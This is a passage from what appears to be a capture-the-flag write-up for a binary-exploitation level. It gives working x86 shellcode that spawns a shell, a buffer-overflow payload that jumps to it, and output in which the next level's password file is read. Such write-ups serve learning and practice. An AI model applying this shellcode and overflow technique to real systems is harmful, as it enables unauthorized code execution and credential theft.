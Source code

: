 Like the `level7` `edx` is again executed on the stack, we will exploit this with an environment variable with our shellcode in :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

We found the buffer overflow was 104 bytes, the first address `0xbffff804` represents `EXPLOIT` location, we add a padding and we finally place `0x0804a00c` which be stored in `edx` and will redirect to `EXPLOIT` shellcode :
```bash
./level9 $(python -c "print '\x04\xf8\xff\xbf' + 'A' * 104+ '\x0c\xa0\x04\x08'")
$ whoami
bonus0
$ cd .. && cat bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

